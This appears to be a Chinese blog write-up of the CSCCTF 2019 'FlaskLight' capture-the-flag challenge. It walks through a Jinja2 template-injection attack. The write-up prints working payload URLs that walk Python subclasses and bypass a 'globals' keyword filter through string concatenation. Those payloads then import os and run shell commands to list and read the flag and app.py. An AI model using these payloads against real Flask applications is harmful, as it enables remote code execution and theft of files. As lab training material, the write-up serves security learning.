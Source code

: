 ```yaml
---
layout: mypost
title: "[CSCCTF 2019 Qual]FlaskLight"
categories: [ctf_wp]
---
```


(强烈建议大家先去看这篇文章--关于SSTI模板注入的那点事)

1.这个题的题目就已经挺明显的给出信息了，这个使用一个Flask框架搭建的一个网站，所以这八成是一个SSTI模板注入，然后f12查看一下源码

```
<!-- Parameter Name: search -->
 <!-- Method: GET -->
```

源码提示了要用GET方法去提交一个名为search的参数，所以这题思路就很明确，上来先验证一下猜想，拿个经典payload测试一下

![](屏幕截图-2023-10-04-185841-1024x202.png)

结果也很明显了，想办法SSTI就行，针对于怎么去模板注入，本人也在博客的另一篇文章有详细的介绍（从概念到payload），所以再此就不在赘述

2.首先还是经典config，看看有没有有利用价值的方法，这个方法没找见，但是找到了一个提示，说这个flag就在当前的这个目录，和网站源码应该是放在一起的

![](Screenshot_164-1024x383.png)

然后就试了一下这个经典payload（这个没啥目的哈，就是测试一下这个环境和以前有道题差不多，因为这个flask.config.Config太熟悉了）

```
http://5b9e2f12-b126-4504-9977-f35693fec327.node4.buuoj.cn:81/?search={{config.__class__.__base__.__subclasses__()}}
```

![](Screenshot_165-1024x325.png)

然后测测config

```
{{config.__class__.__init__.__globals__}}
```

![](屏幕截图-2023-10-04-190954-1024x125.png)

发现这个报错了，当时以为就是可能config里面不存在方法，对象吧，但现在看来我当时好傻，这咋可能欸

3.然后觉得这个绝对路径不行，我就开始从最开始的根目录开始试，下面是具体的payload

```
http://5b9e2f12-b126-4504-9977-f35693fec327.node4.buuoj.cn:81/?search={{().__class__.__base__.__subclasses__()}}
```

![](Screenshot_166-1024x476.png)

很明显我就是要用这个类，然后我也不想写脚本去确定它到底是第几位，然后index（）的话，搞了半天，不知道是不是被禁用了（这里就感觉之前那个config的时候，是不是哪个关键词被禁用了，因为这个题目不管是哪里出了问题都是给个500），一直给500的错误，然后就一个一个确定，它是第59位，然后就实例化一下这个类，看有啥方法

```
http://5b9e2f12-b126-4504-9977-f35693fec327.node4.buuoj.cn:81/?search={{().__class__.__base__.__subclasses__()[59].__init__.__globals__}}
```

![](屏幕截图-2023-10-04-191805-1024x104.png)

它竟然还是一个500错误，这下就坐实了，肯定是哪个关键字被过滤了，然后就一个一个测试，发现给globals少写一个s就正常，所以肯定是globals被过滤了

![](屏幕截图-2023-10-04-191916-1024x163.png)

4.然后这个绕过就很简单，之前那篇文章也给过相关的payload，下面给出绕过的payload

```
http://5b9e2f12-b126-4504-9977-f35693fec327.node4.buuoj.cn:81/?search={{().__class__.__base__.__subclasses__()[59].__init__.__getattribute__(%27__gl%27+%27obals__%27)}}
```

![](屏幕截图-2023-10-04-192151-1024x415.png)

5.然后就很舒服了，这里面有import，那就直接import os，然后用popen执行命令，然后.read回显，整个动作一气呵成，这个都在那篇文章中有解释，自己不懂的话，可以先去看那篇文章，下面给出payload，由于一开始题目就提示在同一目录下，所以就直接ls /flasklight

```
http://5b9e2f12-b126-4504-9977-f35693fec327.node4.buuoj.cn:81/?search={{().__class__.__base__.__subclasses__()[59].__init__.__getattribute__(%27__gl%27+%27obals__%27).__builtins__[%27__imp%27+%27ort__%27](%27o%27+%27s%27).popen(%27ls%20/flasklight%27).read()}}
```

![](屏幕截图-2023-10-04-192516-1024x102.png)

然后直接cat另一个文件就行

```
http://5b9e2f12-b126-4504-9977-f35693fec327.node4.buuoj.cn:81/?search={{().__class__.__base__.__subclasses__()[59].__init__.__getattribute__(%27__gl%27+%27obals__%27).__builtins__[%27__imp%27+%27ort__%27](%27o%27+%27s%27).popen(%27cat%20/flasklight/coomme_geeeett_youur_flek%27).read()}}
```

![](image-20231004192718033-1024x106.png)

然后cat一下这个源码文件，验证一下猜想，是不是过滤了这个关键字

```
http://5b9e2f12-b126-4504-9977-f35693fec327.node4.buuoj.cn:81/?search={{().__class__.__base__.__subclasses__()[59].__init__.__getattribute__(%27__gl%27+%27obals__%27).__builtins__[%27__imp%27+%27ort__%27](%27o%27+%27s%27).popen(%27cat%20/flasklight/app.py%27).read()}}
```

![](Screenshot_167-1024x135.png)

验证成功哈，ok那这道题就到这里辣

Finish!!!